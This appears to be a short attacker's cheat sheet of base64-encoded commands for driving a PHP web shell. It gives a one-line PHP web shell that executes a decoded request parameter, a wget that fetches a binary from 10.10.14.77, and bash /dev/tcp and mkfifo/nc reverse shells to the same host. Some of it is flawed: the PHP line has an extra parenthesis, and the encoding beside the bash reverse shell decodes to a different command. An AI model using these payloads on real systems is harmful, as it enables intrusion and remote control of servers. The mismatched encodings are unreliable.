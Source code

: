 # some useful commands base64-encoded

## if base64 encoding must be used for php file

`<?php system(base64_decode($_REQUEST['cmd'])));`


ls
bHMK

id
aWQK



whoami
d2hvYW1pCg==


wget http://10.10.14.77/shellbinary -O /tmp/shellbinary
d2dldCBodHRwOi8vMTAuMTAuMTQuNzcvc2hlbGxiaW5hcnkgLU8gL3RtcC9zaGVsbGJpbmFyeQo=


bash -i >& /dev/tcp/10.10.14.77/443 0>&1 c3lzdGVtKCJ3Z2V0IGh0dHA6Ly8xMC4xMC4xNC43Ny9zaGVsbGJpbmFyeSAtTyAvdG1wL3NoZWxs
YmluYXJ5Iik7Cg==


chmod +x /tmp/shellbinary
Y2htb2QgK3ggL3RtcC9zaGVsbGJpbmFyeQo=




rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.14.77 443 >/tmp/f
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjEgfCBuYyAx
MC4xMC4xNC43NyA0NDMgPi90bXAvZgo=




tags: base64 php
